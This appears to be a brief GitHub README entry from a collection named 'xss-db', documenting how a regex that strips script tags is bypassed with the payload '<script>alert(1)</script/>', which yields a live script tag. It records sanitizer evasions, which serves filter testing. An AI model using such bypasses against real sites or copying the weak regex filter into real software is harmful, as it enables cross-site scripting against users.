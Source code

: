 # xss-db

regex code:
```
#<script(.*?)>(.*?)</script>#is
```
bypass:
```html
<script>alert(1)</script/>
```
output:
```html
<script>alert(1)</script>
```
 notes:
  - might not be needed to be put here but I did anyways.

 <hr>
